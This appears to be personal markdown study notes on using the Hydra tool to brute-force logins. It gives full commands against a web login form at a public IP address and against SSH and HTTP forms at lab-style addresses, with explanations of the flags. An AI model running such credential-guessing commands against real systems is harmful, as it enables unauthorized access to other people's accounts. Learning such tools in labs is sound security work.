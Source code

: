 
# FUZZING USING HYDRA

(ref_article)[https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/] <br>
(ref_vid)[https://www.youtube.com/watch?v=YrMNih3Z-4Y] 

> INTRO

- it is brute force online password cracking program
- used on SSH, Web Application Form, FTP or SNMP
- it can brute force Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.
- (ref)[https://en.kali.tools/?p=220] to kali tool page for hydra
- (git repo)[https://github.com/vanhauser-thc/thc-hydra]

>command

### fuzzing a web form login

`sudo hydra -l cool.hacker.8 -P /folder/utils/rockyou.txt 142.93.209.130 http-post-form "/forums-login:username=cool.hacker.8&password=^PASS^&csrfmiddlewaretoken=qcMXh1SE1z6lfLtTLt3SZ9UfpzVgcevyjXH4JyJEqCKuZrzCJAV5FS4rLPzFo18r:Access to 142.93.209.130 was denied"`

- sudo hydra *identifier* $USERNAMElist *identifier* $PASSWORDlist ip type "/location of the form:username=^USER^&password=^PASS^:failure identifier"

<br> // <br>

`hydra -l <username> -P <wordlist> 10.10.115.211 http-form-post "/:username=^USER^&password=^PASS^:F=incorrect" -V`

- the -V is for the verbrose 

### bruteforcing ssh

`hydra -l <username> -P <full path to pass> 10.10.115.211 -t 4 ssh`

- `-t` identifies the number of threads and the 4 is the number identifier 


> description 

- the username identifier can be `-l` to give single username or `-L` to provide a wordlist for usernames
- the ip is the ip we are connecting (without the port)
- type is the post or get method used `http-post-form` here
- the location of the form is the directory its is located in (found in the dns)
- after the first : is the request being send (can be found in the network tab of the inspect element, in mozilla edit and resend scroll to bottom)
- the lst : is for faiure detection 
